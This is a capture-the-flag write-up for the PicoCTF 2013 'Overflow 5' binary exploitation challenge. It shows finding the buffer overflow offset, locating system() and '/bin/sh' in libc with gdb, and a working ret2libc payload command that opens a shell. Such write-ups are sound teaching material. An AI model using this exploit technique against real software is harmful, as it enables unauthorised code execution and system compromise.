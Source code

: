 # PicoCTF 2013: Overflow 5

**Category:** Binary Exploitation
**Points:** 190
**Description:**

>Stack overflows are the most basic binary exploitation technique, but they
>take a lot of skill to master. If you already know some C, these problems can
>help acquaint you with stacks and binary exploitation in general.

>Problem available on the shell machine in
>/problems/stack_overflow_5_0353c1a83cb2fa0d , downloadable [here](https://2013.picoctf.com/problems/overflow5-0353c1a83cb2fa0d). Source is not
>available for this problem.

>If you solve the problem you will be able to read the key file by running

>cat /problems/stack_overflow_5_0353c1a83cb2fa0d/key
>on the PicoCTF shell machine.

>**Hint:** Now you don't have source, and you aren't allowed to execute code
>on the stack. Keep calm and objdump -d


## Write-up
**Disclaimer: I've spoken to people who solved this during the actual contest. They
said that using ulimit to solve this problem was encouraged and/or hinted at by
the creators. In addition, I haven't been able to exploit it with ASLR
enabled.**

**Disclaimer 2: While the technique will remain the same, solving this on the
server will yield very different results.**

No source. The first thing we should do is just find the offset to hijack `%eip`
```
$ strace ./overflow5-0353c1a83cb2fa0d $(python -c 'print "A"*1036 + "BBBB"')
...
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
```
1036 bytes and then we have control over eip. Now what we do is use gdb with
the ASLR disabled to find the address of some important items, namely
`system()` and the address of "/bin/sh" in libc.
```
$ setarch `uname -m` -R gdb -q ./overflow5-0353c1a83cb2fa0d
Reading symbols from ./overflow5-0353c1a83cb2fa0d...(no debugging symbols
found)...done.
(gdb) b*main
Breakpoint 1 at 0x80483c0
(gdb) r
Starting program:
/vagrant/write-ups-2013/pico-ctf-2013/overflow-5/overflow5-0353c1a83cb2fa0d

Breakpoint 1, 0x080483c0 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e62190 <system>
(gdb) info proc map
process 6912
Mapped address spaces:

    Start Addr   End Addr       Size     Offset objfile
     0x8048000  0x8049000     0x1000        0x0 /vagrant/write-ups-2013/pico-ctf-2013/overflow-5/overflow5-0353c1a83cb2fa0d
     0x8049000  0x804a000     0x1000        0x0 /vagrant/write-ups-2013/pico-ctf-2013/overflow-5/overflow5-0353c1a83cb2fa0d
     0x804a000  0x804b000     0x1000     0x1000 /vagrant/write-ups-2013/pico-ctf-2013/overflow-5/overflow5-0353c1a83cb2fa0d
    0xf7e21000 0xf7e22000     0x1000        0x0
    0xf7e22000 0xf7fca000   0x1a8000        0x0 /lib/i386-linux-gnu/libc-2.19.so
    0xf7fca000 0xf7fcc000     0x2000   0x1a8000 /lib/i386-linux-gnu/libc-2.19.so
    0xf7fcc000 0xf7fcd000     0x1000   0x1aa000 /lib/i386-linux-gnu/libc-2.19.so
    0xf7fcd000 0xf7fd0000     0x3000        0x0
    0xf7fd9000 0xf7fdb000     0x2000        0x0
    0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
    0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.19.so
    0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.19.so
    0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.19.so
    0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e22000, +9999999,"/bin/sh"
0xf7f82a24
```
Now that we have the address of system and "/bin/sh" we can happily call that
function, providing /bin/sh as the argument

```
setarch `uname -m` -R  ./overflow5-0353c1a83cb2fa0d $(python -c 'print "A"*1036
+ "\x90\x21\xe6\xf7" + "JUNK" + "\x24\x2a\xf8\xf7"')
```
pwn.

## Other write-ups and resources

* none yet
